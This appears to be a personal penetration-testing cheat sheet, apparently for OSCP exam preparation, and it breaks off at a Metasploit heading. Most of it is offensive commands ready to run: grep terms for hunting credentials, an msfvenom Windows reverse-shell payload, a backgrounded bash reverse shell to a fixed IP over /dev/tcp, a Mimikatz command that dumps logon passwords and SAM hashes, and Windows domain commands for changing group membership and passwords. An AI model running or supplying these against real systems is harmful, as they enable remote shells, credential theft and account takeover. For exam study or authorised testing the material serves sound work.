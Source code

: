 ### Search terms for grep:
```
pass
key
user
secr
pwd
```
### Good detailed directory busting wordlist:
```bash
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```
### Unzip .tar:
``` bash
tar -xf
```

### Debugging curl command:
```bash
curl -sSik
```

### Autorecon:
```bash
sudo ~/.local/bin/autorecon -v 192.168.217.151 --nmap-append=-A
```

### API endpoint wordlist:
```bash
/usr/share/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
```

### Is user admin in Windows:
```powershell
([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
```

### OSCP Windows 64-bit payload:
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4444 -f exe -o shelle.exe
```
### Linux background reverse shell using screen:
```bash
screen -md bash -c 'bash -i >/dev/tcp/10.1.1.20/443 2>&1 0<&1'
```
### Mimikatz all-in-one command:
```
.\mimi.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```
### Windows abuse functions:
```
# Add user to group:
net group "Management Department" <user> /add /domain

# Delete user:
net group "Management Department" <user> /del /domain

# Change user password:
net user <username> <newpassword> /domain
```
### MSF/Metasploit $env error fix: